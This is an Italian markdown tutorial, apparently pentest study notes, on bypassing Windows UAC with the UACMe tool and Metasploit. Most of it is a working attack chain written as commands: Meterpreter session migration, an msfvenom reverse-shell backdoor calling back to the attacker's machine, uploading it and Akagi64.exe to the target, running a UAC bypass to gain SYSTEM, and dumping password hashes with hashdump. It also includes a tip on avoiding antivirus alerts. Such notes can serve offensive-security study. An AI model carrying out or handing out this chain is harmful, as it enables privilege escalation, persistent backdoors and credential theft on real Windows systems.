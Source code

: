 
# Bypassing UAC with UACMe

## Cos’è l’UAC?

**UAC (User Account Control)** è una funzionalità di sicurezza introdotta con Windows Vista e mantenuta in tutte le versioni successive. <br>
Il suo obiettivo è impedire che software non autorizzati (inclusi malware) apportino modifiche critiche al sistema operativo senza il consenso esplicito dell’utente.

Quando un programma richiede privilegi elevati:

- Se l’utente è standard: viene richiesto l’inserimento delle credenziali di un amministratore.
- Se l’utente fa parte del gruppo “Administrators”: viene mostrato un prompt con richiesta di conferma.

Questo comportamento è uno dei principali ostacoli durante la **privilege escalation**, perché anche se l’utente appartiene al gruppo `Administrators`, Windows blocca l’elevazione automatica dei privilegi con un popup che richiede approvazione manuale (click su “Sì”).

## UACMe – Cos’è e come funziona?

**UACMe** è uno strumento open-source scritto in C, disponibile su <a href="https://github.com/hfiref0x/UACME">GitHub</a> 

È una collezione di oltre **70 metodi di bypass UAC** che sfruttano vulnerabilità note, abusi di comandi nativi Windows o meccanismi interni come COM hijacking o DLL injection. Ogni metodo è numerato e testato per specifiche versioni di Windows. Il binario principale è `Akagi`.

## Fasi operative

### Fase 1 – Verifica dei privilegi attuali

Verifichiamo se l’utente corrente appartiene al gruppo degli amministratori e quali privilegi ha:

su meterpeter: <br>
`getuid` ⟶ mostra il nome utente corrente associato alla sessione Meterpreter. <br> 
`getprivs` ⟶ elenca tutti i privilegi disponibili per l’utente corrente. <br> 
su shell: <br>
`net user` ⟶ mostra tutti gli utenti presenti nel sistema. <br> 
`net localgroup administrators` ⟶ mostra i membri del gruppo degli amministratori locali. <br>

Se l’utente è un amministratore ma non ha privilegi SYSTEM, sarà soggetto a UAC.

### Fase 2 – Migrazione nel processo explorer.exe

Per eseguire un bypass UAC in modo affidabile, dobbiamo migrare nel processo `explorer.exe`, poiché è eseguito nel contesto utente dell’attaccato:

`pgrep explorer` ⟶ cerca il PID del processo explorer.exe (ambiente desktop dell’utente). <br>
`migrate <PID>` ⟶ trasferisce la sessione Meterpreter nel processo explorer. <br>
`getprivs` ⟶ riconferma i privilegi dopo la migrazione. <br>

Questa migrazione è importante per evitare comportamenti anomali durante l’esecuzione del bypass UAC, perché alcuni metodi richiedono un contesto utente interattivo.

### Fase 3 – Generazione del payload

Creiamo una nuova backdoor con Meterpreter che verrà eseguita dopo il bypass:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f exe > backdoor.exe` <br>

- `-p windows/meterpreter/reverse_tcp`: specifica il payload che si connette alla nostra macchina. <br>
- `LHOST` / `LPORT`: IP e porta del nostro listener. <br>
- `-f exe`: indica che il payload deve essere generato come eseguibile Windows. <br>
- `> backdoor.exe`: salva il payload con questo nome. <br>

### Fase 4 – Creazione del listener

Impostiamo un listener Metasploit per ricevere la connessione:

`use multi/handler` ⟶ modulo per ricevere connessioni da payload. <br>
`set payload windows/meterpreter/reverse_tcp` ⟶ imposta il tipo di payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta su cui ascoltare. <br>
`run` ⟶ avvia il listener. <br>

### Fase 5 – Trasferimento dei file sul target

Spostiamoci sul target e carichiamo i file necessari:

`cd C:\` ⟶ ci portiamo nella root del disco C. <br>
`mkdir Temp` ⟶ creiamo una directory di lavoro chiamata Temp. <br>
`cd Temp` ⟶ entriamo nella cartella Temp. <br>
`upload backdoor.exe` ⟶ carichiamo il payload generato. <br>
`upload Akagi64.exe` ⟶ carichiamo il file eseguibile di UACMe. <br>

Evitiamo directory utente per ridurre il rischio di allarmi antivirus.

### Fase 6 – Esecuzione del bypass

Lanciamo il file `Akagi64.exe` con il metodo `23` per bypassare l’UAC ed eseguire la backdoor:

`dir` ⟶ mostra i file nella cartella corrente, verifica della presenza dei file caricati. <br>
`./Akagi64.exe 23 C:\Temp\backdoor.exe` ⟶ esegue il metodo 23 di UACMe su `backdoor.exe`. <br>

Il metodo `23` sfrutta una tecnica documentata nel progetto UACMe. Si possono provare altri moduli se questo non funziona.
I moduli sono visionabili nella repository di UACMe nel file README.md.

### Fase 7 – Verifica della nuova sessione privilegiata

Una volta che il payload viene eseguito con privilegi elevati, otterremo una nuova sessione Meterpreter.

`getuid` ⟶ conferma l’identità utente, ci aspettiamo `NT AUTHORITY\SYSTEM`. <br>
`getprivs` ⟶ verifica tutti i privilegi ora ottenuti. <br>
`ps` ⟶ mostra i processi attivi per poter eventualmente migrare in un altro processo di sistema. <br>

Se tutto è andato a buon fine, abbiamo bypassato l’UAC ottenendo controllo SYSTEM.

---

## Utilizzo modulo automatico Metasploit
Esiste un modulo per poter bypassare UAC ed effettuare varie tecniche di privilege escalation, 
```bash
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpeter/reverse_tcp    # se il target ha un sistema operativo 64 bit
set SESSION 1
set LPORT <PORT>                                  # se la sessione meterpeter usa la porta 4444 va messa una porta differente
run
```
dopo aver eseguito questo modulo, otterremo una seconda sessione con UAC bypassato e verrano date delle informazioni sul target. <br>
se dovesse fallire, basta impostare il tipo di target
```bash
set TARGET Windows\ x64       # se il target ha un sistema operativo 64 bit, altrimenti completare premendo TAB con il sistema operativo corretto
```
possiamo successivamente fare 
```bash
sysinfo
getuid
getsystem    # per elevare automaticamente i privilegi
hashdump 
```

---
